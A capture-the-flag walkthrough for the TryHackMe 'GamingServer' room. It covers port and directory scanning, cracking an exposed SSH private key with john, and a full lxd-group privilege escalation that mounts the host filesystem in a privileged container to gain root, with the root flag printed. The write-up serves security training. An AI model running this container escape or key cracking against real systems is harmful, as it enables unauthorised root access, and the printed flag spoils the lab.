 ```yaml
---

title: Walkthrough - GamingServer
published: true
---
```


Exploit LXD user group and container. Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

[https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)

* * *

## Notes

- nmap

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- gobuster

```shell
/uploads              (Status: 301) [Size: 314] [--> http://10.10.58.155/uploads/]
/about.php            (Status: 200) [Size: 2213]                                  
/robots.txt           (Status: 200) [Size: 33]                                    
/secret               (Status: 301) [Size: 313] [--> http://10.10.58.155/secret/] 
```

- rsa private key located in secret we can feed this to john and use it to login to ssh.
- ``john gamingserver.rsa --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
- checking index.html found a username at the bottom of the page. now we can login

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``id``
- we are a member of lxd - [we can use this for privesc](https://reboare.github.io/lxd/lxd-escape.html)

```shell
john@exploitable:/tmp$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-07-29 10:54:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64-20210218_0139.ta 100%[===================================================================>]   3.11M   295KB/s    in 11s     

2022-07-29 10:54:54 (286 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jul 29, 2022 at 10:55am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Jul 29 10:57 .
     4 drwxr-xr-x   19 root     root          4096 Jul 29 10:56 ..
     4 -rw-------    1 root     root            18 Jul 29 10:57 .ash_history
~ # cd /root
~ # ls
~ # pwd
/root
~ # cd ..
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # cd /mnt/root
/mnt/root # ls
bin             dev             initrd.img      lib64           mnt             root            snap            sys             var
boot            etc             initrd.img.old  lost+found      opt             run             srv             tmp             vmlinuz
cdrom           home            lib             media           proc            sbin            swap.img        usr             vmlinuz.old
/mnt/root # cd /root
~ # ls
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

* * * 

